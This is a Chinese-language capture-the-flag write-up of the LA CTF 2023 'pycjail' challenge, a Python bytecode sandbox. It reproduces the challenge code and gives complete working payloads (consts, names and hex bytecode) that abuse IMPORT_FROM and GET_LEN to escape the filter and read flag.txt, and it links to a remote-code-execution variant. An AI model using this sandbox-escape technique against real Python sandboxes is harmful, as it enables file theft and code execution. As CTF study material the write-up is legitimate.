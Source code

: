 # Pycjail

[题目](https://github.com/uclaacm/lactf-archive/tree/main/2023/misc/pycjail)

继续总结看到的[wp](https://justinapplegate.me/2023/lactf-pycjail/)。

```python
#!/usr/local/bin/python3
import opcode
import inspect


def f():
    pass


banned = ["IMPORT_NAME", "MAKE_FUNCTION"]
for k in opcode.opmap:
    if (
        ("LOAD" in k and k != "LOAD_CONST")
        or "STORE" in k
        or "DELETE" in k
        or "JUMP" in k
    ):
        banned.append(k)
banned = {opcode.opmap[x] for x in banned}

consts = tuple(input("consts: ").split(","))
names = tuple(input("names: ").split(","))
code = bytes.fromhex(input("code: "))
if len(consts) > 3:
    print("too many consts >:(")
elif len(names) > 4:
    print("too many names >:(")
elif len(code) > 30:#一个opcode的byte长2，这里就是最多15个opcode
    print("too much code >:(")
elif len(code) % 2 != 0:
    print("invalid code >:(")
elif any(code[i] in banned for i in range(0, len(code), 2)):#code的格式为opcode 值 code 值...，因此跳着取，这里过滤opcode
    print("banned opcode >:(")
elif any(code[i] > 3 for i in range(1, len(code), 2)):#这里要求opcode的值不能大于3
    print("I never learned how to count past 3 >:(")
else:
    f.__code__ = f.__code__.replace( #https://www.codeguage.com/courses/python/functions-code-objects
        co_stacksize=10, #f()本来是空函数，这里将其替换为我们输入的代码，下方p(r(f()))即可运行
        co_consts=consts,
        co_names=names,
        co_code=code,
    )
    print("here goes!")
    frame = inspect.currentframe()
    p = print
    r = repr
    for k in list(frame.f_globals): #https://docs.python.org/3/library/inspect.html
        if k not in ("p", "r", "f"):
            del frame.f_globals[k]
    p(r(f()))
```

分析题目，我们可以输入code，程序运行后输出结果。问题在于过滤得有点多，import/makefunc/load/store/delete/jump等操作全没了。第一种解法尝试读取flag文件，等会我再放第二种直接RCE的解法。根据[文档](https://docs.python.org/3.10/library/dis.html)内容，发现CALL_FUNCTION和CALL_METHOD未被过滤，两者都可调用函数。然而，假如栈上没有可调用对象，这俩玩意是没用的。LOAD_GLOBAL, LOAD_NAME, LOAD_METHOD和LOAD_ATTR是常用的加载可调用对象的opcode，可惜它们全在黑名单里。整个LOAD家族只剩下个LOAD_CONST，可它又只能往栈上加载字符串。

准备死磕，需要个测试脚本。

```python
import dis

code_str = 'print("a")'
code = compile(code_str, '<string>', 'exec') #https://docs.python.org/3/library/functions.html#compile

dis.dis(code)

print("\nconsts: ", code.co_consts)
print("names: ", code.co_names)
print("code: ", code.co_code.hex())
```

另一个比赛的另一个[题目wp](https://kmh.zone/blog/2021/02/07/ti1337-plus-ce/#another-way-to-leak)给了作者启发：IMPORT_FROM本质上还是LOAD_ATTR，只不过多了一层伪装。正常情况下的IMPORT_FROM后面总是跟着IMPORT_NAME，而IMPORT_NAME又被过滤了，让人不会把太多心思放在IMPORT_FROM上。如果我们能把IMPORT_FROM当LOAD_ATTR用，往栈上放可调用对象就很简单了。

在python 的bytecode中，两种调用函数的方式分别为LOAD_METHOD+CALL_METHOD和LOAD_ATTR+CALL_FUNCTION。这里我们用IMPORT_FROM代替LOAD_ATTR，也能正常使用。一个问题解决，第二个问题是怎么获取数字？一般的payload都是靠`"".__class__.__base__.__subclasses__[某个数字]`来获取想要的模块，可是题目使用input函数获取payload，我们输入的任何内容都是字符串。巧的是，正好有个GET_LEN opcode，作用是对栈顶元素调用len函数。那就好办了，因为`"".__class__`等同于`"任意长度字符串".__class__`，所以我们在const里放上这个字符串，要用数字时就使用LOAD_CONST把字符串加载上来，调用GET_LEN获取长度就是想要的数字了。不过GET_LEN把数字结果放到栈顶后，仍然会保留之前那个字符串。因此还要用另外两个opcode把字符串pop出去。（这里我不太确定是最后的for循环把字符串过滤了还是想缩小栈的大小，不让其超过co_stacksize。最后的for循环似乎是把除p，r，k外的命名空间删掉，我也不太确定。在最终payload里删除了ROT_TWO和POP_TOP的bytecode。运行结果在f函数里出现string index out of range。可能不是过滤的问题，是运行的问题？）。

目前我们有了下面的payload：

```
Python code: 'aaaa...aaa'.__class__.__base__.__subclasses__()[14]

consts: aaaa...aaa
names: __class__,__base__,__subclasses__
code: 64006d006d016d02830064001e000200010019005300
#code是手工修改过的

Disassembly:
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
1e00 -> GET_LEN -> 14 or whatever we want
0200 -> ROT_TWO
0100 -> POP_TOP
1900 -> BINARY_SUBSCR
5300 -> RETURN_VALUE
```

还剩下2 consts, 1 name和4 opcodes给我们完成剩余payload。翻阅[可用类列表](https://justinapplegate.me/static/lactf-pycjail/classes.txt)，我们可以一个一个试哪个类符合条件。`"".__class__.__base__.__subclasses__()[144]()._module.__builtins__["eval"]("代码")`需要两个name,不行。最后找到了`<class '_frozen_importlib_external.FileLoader'>`，里面有个get_data()函数，可以获取flag文件内容。（发现[这里](https://www.cnblogs.com/h0cksr/p/16189741.html)写了）。`("a"*118).__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')`正是符合要求的payload。

```
''.__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')

consts: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,flag.txt
names: __class__,__base__,__subclasses__,get_data
code: 64006d006d016d02830064001e000200010019006d036401640183025300

6400 -> LOAD_CONST, consts[0] -> 'a'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'a'
1e00 -> GET_LEN -> 1
0200 -> ROT_TWO
0100 -> POP_TOP
1900 -> BINARY_SUBSCR
6d03 -> IMPORT_FROM, names[3] -> get_data
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
8302 -> CALL_FUNCTION
5300 -> RETURN_VALUE
```

[RCE解法](https://gist.github.com/lebr0nli/7295bd3cd39573ca9625bb9285555c44)。感觉重点还是IMPORT_FROM那个知识点，只不过这个解法尝试从builtins中获取os模块getshell。

## Flag
> flag{maybe_i_should_only_allow_nops_next_time}
